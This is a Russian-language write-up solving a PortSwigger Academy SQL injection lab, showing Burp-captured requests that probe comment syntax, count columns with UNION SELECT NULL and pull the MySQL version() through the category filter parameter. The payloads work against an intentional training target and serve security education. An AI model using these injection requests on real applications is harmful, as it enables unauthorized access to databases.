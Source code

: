 Зайдем на случайную страницу на предложенном уязвимом приложении, и найдем данный запрос в `Proxy` -> `HTTP history`
```
GET /filter?category=Pets
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/16.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft/pics%20for%20walktrough/1.png)
Используя читлист, предложенный авторами лабораторной работы - перебираем возможные комментарии, чтобы убедиться, что SQL-инъекция возможна
```
https://portswigger.net/web-security/sql-injection/cheat-sheet
```
и удалим значение категории фильтра, чтобы в выдаче нам ничего не мешалось
```
GET /filter?category='#
```
И по знаку `#` делаем вывод, что работаем с БД `MySQL`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/16.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft/pics%20for%20walktrough/2.png)
Пользуясь конструкцией UNION SELECT NULL,...,NULL определяем сколько столбцов в возвращаемой таблице. В нашем случае - их две.
```
GET /filter?category='UNION+SELECT+NULL,NULL# 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/16.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft/pics%20for%20walktrough/3.png)
Следующим запросом узнаем, какая версия операционной системы крутится
```
GET /filter?category='UNION+SELECT+version(),NULL# 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/16.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft/pics%20for%20walktrough/4.png)
Обновим страницу, и увидим сообщение об успешно выполненной лабораторной работе
